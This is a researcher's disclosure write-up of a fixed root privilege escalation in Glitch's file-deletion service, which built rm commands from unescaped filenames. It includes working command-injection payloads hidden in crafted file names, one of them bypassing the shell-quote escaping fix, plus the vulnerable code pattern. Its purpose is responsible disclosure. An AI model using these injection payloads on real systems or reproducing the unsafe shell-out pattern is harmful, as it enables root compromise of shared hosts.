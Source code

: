 ```yaml
---
date: Wed Nov 10 2021 23:22:39 -0800 (Pacific Standard Time)
qualitative_time: 
title: The privileged daemon that used shell-quote
previous_teaser: How to disown a weapon in GTA Online
previous_first: true
has_highlighting: true
---
```

In 2020, I discovered a root privilege escalation vulnerability in the way Glitch deletes project files.
This vulnerability is now fixed.

## Brief summary

A program that ran as root would do this:

```js
child_process.execSync(`rm -r '${fullOldPath}'`);
```

## Where was this?

Inside project containers, a service called "OT storage" (OT referring to _operational transformation_, an algorithm Glitch uses to manage concurrent modifications to the project from multiple users) accepts changes from the editor and applies the changes to the project container's filesystem.
The OT storage service runs as root (I don't know why).

One of the operations the OT storage service performs is to delete a given directory and its contents.
The OT storage service is written in Node.js, the standard library of which does not provide a way to delete a directory recursively.
So it's up to the application to implement logic to do that or to use a third-party library.
Maybe using the `rm` program's recursive deletion was the most appealing way to do it.

## A copy of the report I sent to Glitch

In various places in the ot-storage service, it shells out like this:

```js
child_process.execSync(`rm -f '${completePath}'`);
```

With a number of dangerous qualities:

1. It uses the raw `child_process` module, which doesn't switch to the app user.
2. It includes user-controlled data in `completePath`.
3. It constructs the command using string concatenation.
4. It doesn't escape or sanitize the varying part.

A specially crafted filename can trick ot-storage into running other shell commands.
Because ot-storage runs as root, those commands will run as root.

### Sample exploit with dummy payload

In the terminal:

```sh
touch touch a\'\;id\>me\'
touch a
refresh
```

In the editor, delete `a';id>me'`.

Verify in the terminal:

```sh
ls # a gone
ls -l /opt/watcher/me # created, owned by root
```

## Notes

The JavaScript line I quoted in the report wasn't the one that the sample exploit triggered.
The sample exploit triggered the one I put in the brief summary section above.

The line I quoted in the report was used for cleaning up a failed write in some exotic cases.
This one didn't have to be recursive, but maybe they shelled out just for consistency.

## Glitch's fix

They stuck with using `rm -r` for recursive deletion, but they used a package called `shell-quote` to escape the filename.

```js
const shell_quote_1 = require("shell-quote");
...
child_process.execSync(shell_quote_1.quote(['rm', '-r', fullOldPath]));
```

## Further investigation

Around the time Glitch notified me of their fix, I was working on a project that needed to quote some text for shell parameters.
In my project, I opted to write [my own logic](https://github.com/wh0/snail-cli/blob/v2.9.0/src/index.js#L331-L333) to do it:

```js
function shellWord(s) {
  return '\'' + s.replace(/'/g, '\'"\'"\'') + '\'';
}
```

(Don't look at how it's used.
I know there is a critical problem with that.)

I wanted to know how other people did it---perhaps the people who contributed to the 10,559,861 weekly downloads were on to something---so I looked into how the shell-quote package worked.
It was quite different from how I was doing it.
In comparing the behaviors, I found a [vulnerability in shell-quote](/2021/10/28/shell-quote-rce-exploiting.html) that I mentioned in an earlier post, and I reported it to the shell-quote project.

I kept the shell-quote vulnerability private during that time.
I suggested to Glitch that they use `execFileSync` so that they wouldn't have to bother with quoting in the first place, but they declined to take action without a proof of concept exploit.

Soon after, the shell-quote project released a fixed version and publicly disclosed the vulnerability.
Glitch then updated to that fixed version.

Here's how this would have been exploited on Glitch though:

```sh
cat >/app/other.sh <<EOF
#!/bin/sh
id >/tmp/i-am-pwned
echo oh no
EOF
chmod +x /app/other.sh
mkdir '`:`'
mkdir '`:`/app'
touch '`:`/app/other.sh``:`'
refresh
```
Then delete ``` '`:`/app/other.sh``:`' ``` in the editor:

![](/assets/2021/glitch-ot-rm-tree.png)

## Timeline

**2020/11/10**
I find this vulnerability.
I send the report to Glitch.

**2020/11/11**
Glitch forwards the report to the engineering team.

**2021/10/08**
I ask about the status of this report.

**2021/10/14**
Glitch notifies me that they've deployed a fix.
I find the shell-quote vulnerability.
I report that to the shell-quote team for confirmation.
I suggest `execFileSync` to Glitch.

**2021/10/15**
Glitch replies that they won't take action.

**2021/10/21**
The shell-quote correspondence simultaneously confirms the vulnerability, announces it, and publishes a fixed version.
I inform Glitch of the fixed version.

**2021/10/26**
Glitch deploys the fixed version of shell-quote.
We come to an agreement that the vulnerability is fixed.

## Discussion

Special mention to RiversideRocks for raising awareness about shell safety in a [CTF challenge](https://support.glitch.com/t/can-you-read-the-secret-file/30396) featuring command injection shortly before this.

This is the second time we're seeing the date 2021/10/08 involved.
We'll be seeing it a few more times in the future too.
